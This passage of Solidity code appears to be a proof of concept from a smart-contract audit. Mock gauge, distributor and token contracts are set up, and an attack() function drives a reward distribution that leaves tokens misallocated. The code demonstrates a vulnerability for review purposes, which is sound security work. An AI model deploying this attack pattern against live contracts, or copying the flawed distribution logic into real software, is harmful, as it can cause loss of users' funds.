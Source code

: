 ```
) external returns (bool) {
    if(token.balanceOf(address(this)) + amount > capacity )
        return false;
    token.transferFrom(msg.sender, address(this), amount);
    return true;
    }
}

contract Distributor {

    constructor(IERC20 rewardToken) {
        reward = rewardToken;
    }

    mapping(address => uint256) public claimable;
    IERC20 public reward;


    function distribute(address _gauge) public {
        uint256 _claimable = claimable[_gauge];
        claimable[_gauge] = 0;
        IERC20(reward).approve(_gauge, 0); // first set to 0, this helps reset some non-standard tokens
        IERC20(reward).approve(_gauge, _claimable);
        if (!IGauge(_gauge).notifyRewardAmount(address(reward), _claimable)) {
            // can return false, will simply not distribute tokens
            claimable[_gauge] = _claimable;
        }
    }

    function set_claimable(address gauge, uint256 claim) external {
        claimable[gauge] = claim;
    }
}

contract Zero is ERC20 {
    constructor() ERC20("Zero","ZRO") {
        _mint(msg.sender, 100_000 * 1e18);
    }
}

contract DistributorPOC {
    MockIncentiveController supply_gauge;
    MockIncentiveController borrow_gauge;
    LendingPoolGauge lending_gauge;
    Zero zero;
    Distributor d;

    constructor() {
        supply_gauge = new MockIncentiveController(10e18);
        borrow_gauge = new MockIncentiveController(10e18);
        lending_gauge = new LendingPoolGauge(address(supply_gauge), address(borrow_gauge));
        zero = new Zero();
        d = new Distributor(zero);
        zero.transfer(address(d), 100e18);
    }

    function attack() external {
        d.set_claimable(address(lending_gauge), 30e18);
        d.distribute(address(lending_gauge));

        require(zero.balanceOf(address(supply_gauge)) == 7.5e18);
        require(zero.balanceOf(address(borrow_gauge)) == 0);
```